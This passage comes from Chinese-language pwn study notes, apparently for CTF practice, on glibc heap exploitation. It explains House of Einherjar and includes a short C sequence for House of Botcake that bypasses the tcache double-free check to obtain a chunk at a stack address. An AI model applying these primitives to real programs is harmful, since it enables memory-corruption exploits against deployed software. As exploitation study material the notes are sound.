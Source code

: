 ### 0x17 glibc 2.24 以上 IO_FILE 的利用（小于等于2.27）
#### (1)_IO_str_jumps -> overflow

#### (2)_IO_str_jumps -> finish

### 0x18  House Of Einherjar 
该堆利用技术可以强制使得 malloc 返回一个几乎任意地址的 chunk 。其主要在于滥用 free 中的后向合并操作（合并低地址的 chunk），从而使得尽可能避免碎片化。

    两个物理相邻的 chunk 会共享 prev_size字段，尤其是当低地址的 chunk 处于使用状态时，高地址的 chunk 的该字段便可以被低地址的 chunk 使用。因此，我们有希望可以通过写低地址 chunk 覆盖高地址 chunk 的 prev_size 字段。
    一个 chunk PREV_INUSE 位标记了其物理相邻的低地址 chunk 的使用状态，而且该位是和 prev_size 物理相邻的。
    后向合并时，新的 chunk 的位置取决于 chunk_at_offset(p, -((long) prevsize)) 。
    那么如果我们可以同时控制一个 chunk prev_size 与 PREV_INUSE 字段，那么我们就可以将新的 chunk 指向几乎任何位置。

### 0x19  House Of botcake 
绕过tcache double free检查，达到tcache poisoning效果
https://sourceware.org/git/?p=glibc.git;a=commit;h=bcdaad21d4635931d1bd3b54a7894276925d081d
利用序列

      填满tcahce
      intptr_t *x[7];
        for(int i=0; i<sizeof(x)/sizeof(intptr_t*); i++){
            x[i] = malloc(0x100);
        }
        intptr_t *prev = malloc(0x100);
        intptr_t *a = malloc(0x100);
        malloc(0x10);方式合并到top chunk
        for(int i=0; i<7; i++){
                free(x[i]);
            }
        free(a); 释放到Unsorted bin
        free(prev); 触发chunk 合并，形成大chunk
        malloc(0x100);
        free(a);// a is already freed， 此时释放到tcache
        intptr_t *b = malloc(0x120);
        b[0x120/8-2] = (long)stack_var;  //修改tcache chunk fd
        malloc(0x100); 申请得到 a
        intptr_t *c = malloc(0x100); 申请得到stack chunk

## 知识点
### 0x1 fastbin索引计算

    0x7f经过如下运算是会得到fastbin的索引为5，
    # define fastbin_index(sz)                                                      \
        ((((unsigned int) (sz)) >> (SIZE_SZ == 8 ? 4 : 3)) - 2)
### 0x2 malloc hook one_gadget不满足约束解决
